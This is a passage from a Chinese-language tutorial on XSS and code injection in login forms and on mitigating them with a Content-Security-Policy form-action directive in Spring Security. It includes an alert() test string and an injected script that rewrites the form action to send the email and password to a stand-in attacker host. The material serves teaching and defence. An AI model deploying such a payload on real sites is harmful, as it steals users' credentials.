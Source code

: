 现在，让我们看一个例子，了解XSS和代码注入漏洞有多严重。

### 3.1. 登录表单

通常，在Web应用程序中，在会话超时后，我们会将用户重定向到登录页面。标准登录表单具有用户名/密码字段和提交按钮：

```
`<span>`会话超时。请登录。`</span>`
`<form id="login" action="/login">`
    `<input type="email" class="form-control" id="email">`
    `<input type="password" class="form-control" id="password">`
    `<button type="submit">`登录`</button>`
`</form>`
```

### 3.2. 代码注入

用户可以通过表单字段在提供用户输入时注入可疑代码。例如，假设注册表单中的一个文本框接受用户名。

而不是用户名，用户可以输入```<script>``alert("this is not expected")``</script>```并提交表单。随后，当表单显示用户名时，它执行了脚本（在这种情况下显示一个消息）。脚本甚至可以加载外部脚本，可能会造成更严重的伤害。

类似地，假设我们有验证不足的表单字段。再次，用户利用这一点，将恶意JavaScript代码注入到DOM（文档对象模型）中：

```
``<script>``
    let form = document.forms.login;
    form.action = "https://youaredoomed.com:9090/collect?u=" + document.getElementById('email').value + "&p=" + document.getElementById('password').value;
``</script>``
```

这段注入的JavaScript代码在点击登录按钮时将用户重定向到恶意网站。

当一个毫无戒心的用户提交表单时，他被重定向到https://youaredoomed.com，他的凭证被暴露了。

### 3.3. 演示

让我们看看这种漏洞的实际效果。

通常，在会话超时后，服务器会将用户重定向到登录页面输入他的凭证。但是，注入的恶意代码将用户重定向到一个意外的网站，并带有用户的凭证：

## 4. Spring Security

在这一部分，让我们讨论如何减轻这些代码注入漏洞。

### 4.1. HTML meta标签

在前面的例子中添加内容安全策略头将阻止向恶意服务器提交表单。那么，让我们使用``<meta>``标签添加这个头，并检查行为：

```
`<meta http-equiv="Content-Security-Policy" content="form-action 'self';">`
```

添加上述meta标签防止浏览器向其他来源提交表单：

![img](https://www.baeldung.com/wp-content/uploads/2021/12/csp-1-2-1024x491-1.png)
